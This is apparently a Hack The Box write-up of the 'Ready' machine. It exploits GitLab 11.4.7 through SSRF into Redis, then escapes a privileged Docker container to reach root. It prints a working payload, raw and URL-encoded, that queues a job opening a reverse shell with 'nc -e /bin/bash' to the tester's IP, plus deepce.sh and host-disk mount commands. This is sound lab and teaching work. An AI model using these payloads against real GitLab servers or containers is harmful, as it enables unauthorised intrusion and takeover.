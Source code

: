 ![](ready_banner.png)

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="http://www.hackthebox.eu/badge/image/391067"></img></a>
</p>

# Scanning

## Nmap

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
5080/tcp open  http    nginx
| http-robots.txt: 53 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile 
| /dashboard /projects/new /groups/new /groups/*/edit /users /help 
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://ready.htb:5080/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
```

# Foothold:gitlab_11.4.7_ssrf

## Port 5080

__service:__ nginx http server

Running gitlab instance __Version CE 11.4.7__ *get in help section after register with new user*

![](screenshots/running-gitlab.png)

Searching for exploit on exploitDB
```bash
❯ searchsploit gitlab 11.4.7
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
GitLab 11.4.7 - RCE (Authenticated) (2)       | ruby/webapps/49334.py
GitLab 11.4.7 - Remote Code Execution (Authen | ruby/webapps/49257.py
---------------------------------------------- ---------------------------------
```

* Blog on GitLab 11.4.7 Remote Code Execution from [https://liveoverflow.com/](https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/)

*liveoverflow explain in his [blog](https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/) AWA in youtube [video](https://youtu.be/LrLJuyAdoAg)*

__Verify ssrf__

Using IPv6 address to bypass the filter on localhost.

![](screenshots/gitlab-ssrf.png)

and it worked

![](screenshots/bypass-local.png)

Now exploiting radis with ssrl.

Payload get from [Jobert Abma hacker1 report](https://hackerone.com/reports/299473)
```rb
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/
 multi
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|nc -e /bin/bash 10.10.15.71 4141\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
 exec
 exec
/ssrf.git
```

url encoded from [url-encode-decode.com](https://www.url-encode-decode.com/)

```bash
❯ python payload-gen.py #Scripting left on payload generating becaouse for some reason gitlab returning 422 error on every request outside chromium browser.
IP: 10.10.15.71
Port: 4141
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/%0D%0A+multi%0D%0A+sadd+resque%3Agitlab%3Aqueues+system_hook_push%0D%0A+lpush+resque%3Agitlab%3Aqueue%3Asystem_hook_push+%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class_eval%5C%22%2C%5C%22open%28%5C%27%7Cnc+-e+%2Fbin%2Fbash+10.10.15.71+4141%5C%27%29.read%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system_hook_push%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created_at%5C%22%3A1513714403.8122594%2C%5C%22enqueued_at%5C%22%3A1513714403.8129568%7D%22%0D%0A+exec%0D%0A+exec%0D%0A%2Fssrf.git
```

Intercept "project import" request replace import url with paylad.

![](screenshots/rev_shell.png)

# Privesc:docker_privileged_mode

* Inside docker container
```bash
[*] ctn000 Are we in a docker container?................................... yes!
---
... [snip] ...
-rwxr-xr-x 1 root root 0 Dec  1 12:41 /.dockerenv
```

Container's root password floting in `/` root directory but password is not working.

![](screenshots/container-root_pass.png)
<!--YG65407Bjqvv9A0a8Tm_7w-->

Found gitlab config file backup in `/opt/backup/` directory and password.

![](screenshots/gitlab-config.png)

and password work for container root

![](screenshots/container-rooted.png)

Now running [deepce.sh](https://github.com/stealthcopter/deepce) script found Privileged Mode enable.
```bash
[+] Privileged Mode ......... Yes
```

__Docker Privileged Mode:__

* [Escaping Docker Privileged Containers by Vickie Li](https://betterprogramming.pub/escaping-docker-privileged-containers-a7ae7d17f5a1)
* [hacktricks.xyz technique](https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout#privileged-flag)

__Root-0x1__

Exploit docker Privileged Mode with deepce script
```bash
./deepce.sh --no-enumeration --exploit PRIVILEGED -cmd 'hostname' -q
```
![](screenshots/exploit-deepce.png)

__Root-0x2__

The `--privileged` (Privileged Mode) flag allows the container to have access to the host devices. So container root user can mount host.

Privileged Mode allow continer root to run fdisk on host.
```bash
(remote) root@gitlab.example.com:/tmp$ fdisk -l
... [snip] ...

Device        Start      End  Sectors Size Type
/dev/sda1      2048     4095     2048   1M BIOS boot
/dev/sda2      4096 37746687 37742592  18G Linux filesystem
/dev/sda3  37746688 41940991  4194304   2G Linux swap
```

Host is in `/dev/sda2`

mounting host in the comtainer
```bash
mkdir /tmp/host
mount /dev/sda2 /tmp/host
wc -c /tmp/host/root/root.txt
```

![](screenshots/mount-rooted.png)


finally root shell with deepce script

![](screenshots/root-shell.png)
